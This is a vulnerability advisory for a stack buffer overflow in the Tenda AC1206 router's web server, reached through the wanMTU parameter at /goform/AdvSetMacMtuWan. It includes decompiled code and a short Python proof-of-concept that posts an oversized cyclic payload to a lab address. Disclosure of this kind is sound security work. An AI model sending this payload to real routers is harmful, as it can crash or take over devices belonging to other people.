


# Stack-Based Buffer Overflow in Tenda AC1206 1200M 11ac Wi-Fi 5 Router (AC1206V1.0RTL_V15.03.06.23)
## Overview
Due to the lack of restrictions on certain parameters in the `check_param_changed` function and a lack of proper bounds checking, a stack overflow may occur. An unauthenticated remote attacker can cause a remote code execution(RCE) or remote denial of service (DoS) attack by crafting HTTP requests.   

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC1206 Device
+ **Affected Version**: AC1206V1.0RTL_V15.03.06.23
+ **Attack Vector**: Exploiting carefully crafted payloads to cause a stack-based buffer overflow via functions with no boundary checks and insufficient parameter restrictions
+ **Impact**:
    - Remote Code Execution(RCE)
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/AdvSetMacMtuWan`
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: Red-Shield Security Lab(天翼云红盾实验室)
+ **Firmware**: [https://www.tenda.com.cn/material/show/2766](https://www.tenda.com.cn/material/show/2766)

## Discovery
The vulnerability exists in the `squashfs-root/bin/httpd` file. The function call path that triggers the vulnerability is as follows
`main → initWebs → formDefineTendDa → fromAdvSetMacMtuWan → check_param_changed`

``` c
int main()
{
  ...
  initWebs();
  ...
}

int initWebs()
{
  ...
  formDefineTendDa();
  ...
}

void formDefineTendDa()
{
  ...
  websFormDefine("AdvSetMacMtuWan", (void (*)(webs_t, char_t *, char_t *))fromAdvSetMacMtuWan);
  ...
}


void fromAdvSetMacMtuWan(webs_t wp, char_t *path, char_t *query)
{
  ...
  WAN_ARGUMENT wan_set_param[2]; // [sp+D0h] [+D0h] BYREF   // corrupted buffer
  GetValue("wans.flag", mib_value);
  wann = atoi(mib_value);
  for ( i = 0; i < wann; ++i )
  {
    wan_id = i + 1;
    if ( check_param_changed(wp, i + 1, &wan_set_param[i]) )  // vul func
    ...
}

int check_param_changed(webs_t wp, int wan_id, WAN_ARGUMENT *wan_param)
{
  ...
  sprintf(mib_name, "wan%d.connecttype", wan_id);
  GetValue(mib_name, wan_param);
  wan_connect_type = atoi((const char *)wan_param);
  if ( wan_param )
  {
    if ( wan_id == 1 )
    {
      Var = websGetVar(wp, "wanMTU", byte_50F88C);
      strcpy(wan_param->wan_mtu, Var);
      ...
}
```

The program retrieves the user input parameter `wanMTU`. The `strcpy` function in the figure below copies content from `Var` to `wan_param->wan_mtu` without checking the size of the target buffer. `wan_param` is the struct pointer on the stack from the caller function, which points to the address on the caller function stack. The actual size of `wan_mtu` is only 8 bytes, but there is no limit on the length of bytes written from user input during copying, thus leading to a potential stack overflow.

```
The struct of `wan_param`:
00000000 struct __attribute__((aligned(4))) wan_argument // sizeof=0x60
00000000 {                                     
00000000     int wan_connecttype[4];            
00000010     char wan_mtu[8];
00000018     char wan_speed[8];
00000020     char clone_type[8];
00000028     char def_mac[18];
0000003A     char device_mac[18];
0000004C     char mac[18];
0000005E     // padding byte
0000005F     // padding byte
00000060 };
```

 If the length of `wanMTU` exceeds the buffer of `wan_param->wan_mtu`, an overflow will occur.


## Steps to Reproduce
Construct the following payload using Python:

```python
import requests
from pwn import *
context.log_level = 'debug'


url = "http://192.168.207.135/goform/AdvSetMacMtuWan"

cookie = {"Cookie":"password=xpqmji"}

data = {
    "wanMTU": cyclic(0x400),
    }


response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)

```   

Use QEMU to emulate the `httpd` extracted from `US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.bin` and reproduce this with the above poc file.


As shown in the figure below, the emulation is successful.



Use this script to trigger the stack overflow.



## Impact
Unauthenticated remote attackers can execute a remote code execution(RCE) or a Denial of Service (DoS) attack through crafted parameters.

